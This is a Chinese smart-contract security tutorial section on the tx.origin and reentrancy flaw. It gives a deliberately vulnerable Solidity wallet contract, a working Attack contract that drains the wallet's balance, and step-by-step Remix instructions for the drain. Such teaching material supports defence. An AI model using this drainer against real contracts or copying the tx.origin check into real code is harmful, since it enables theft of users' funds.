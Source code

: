 # 第21节：安全事故11-tx.origin攻击

当MyWallet的owner调用transferTo给Attack地址转账时，会调用Attack的receive函数，并在内部再次调用transferTo，从而导致重入攻击。

这里面原因有二：

1. 没有增加重入检查
2. 校验条件错误：tx.origin == owner，这个在重入时是无效的

```js
// SPDX-License-Identifier: MIT
pragma solidity 0.8.11;

// THIS CONTRACT CONTAINS A BUG - DO NOT USE
contract MyWallet {
    address owner;
    constructor() {
        owner = msg.sender;
    }
    receive () external payable {
    }
    function transferTo(address payable dest, uint amount) public {
        // THE BUG IS RIGHT HERE, you must use msg.sender instead of tx.origin
        require(tx.origin == owner);
      
      	// At this point, the caller's code is executed, and can call withdrawBalance again
        (bool success, ) = dest.call{value: amount}(""); 
        require(success);
    }
}

interface UserWallet {
    function transferTo(address payable dest, uint amount) external;
}

contract Attack {
    address payable owner;
    constructor() {
        owner = payable(msg.sender);
    }
    receive() external payable {
        UserWallet(msg.sender).transferTo(owner, msg.sender.balance - msg.value);
    }
}

```

攻击操作方法：

1. 使用account0部署MyWallet，并使用remix的calldata页面转入50ETH
2. 使用account1部署合约Attack
3. 使用account0调用MyWallet的transferTo(attack地址，1)
4. 此时，合约中的金额会全部转入到account1地址中，即Attack合约的部署者。